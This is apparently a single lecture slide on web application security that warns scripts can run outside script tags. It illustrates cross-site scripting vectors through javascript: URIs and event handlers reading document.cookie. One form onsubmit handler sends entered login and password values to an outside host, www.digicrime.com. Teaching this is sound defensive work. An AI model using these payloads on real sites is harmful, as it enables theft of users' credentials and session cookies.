

# Caution: Scripts not only in <script>!
JavaScript as scheme in URI
<img src=“javascript:alert(document.cookie);”>
 JavaScript On{event} attributes (handlers)
OnSubmit, OnError, OnLoad, …
 Typical use:
<img src=“none” OnError=“alert(document.cookie)”>
<iframe src=`https://bank.com/login` onload=`steal()`>
<form> action="logon.jsp" method="post"
    onsubmit="hackImg=new Image;
    hackImg.src='http://www.digicrime.com/'+document.for
    ms(1).login.value'+':'+
    document.forms(1).password.value;" </form>
71
Web Application Security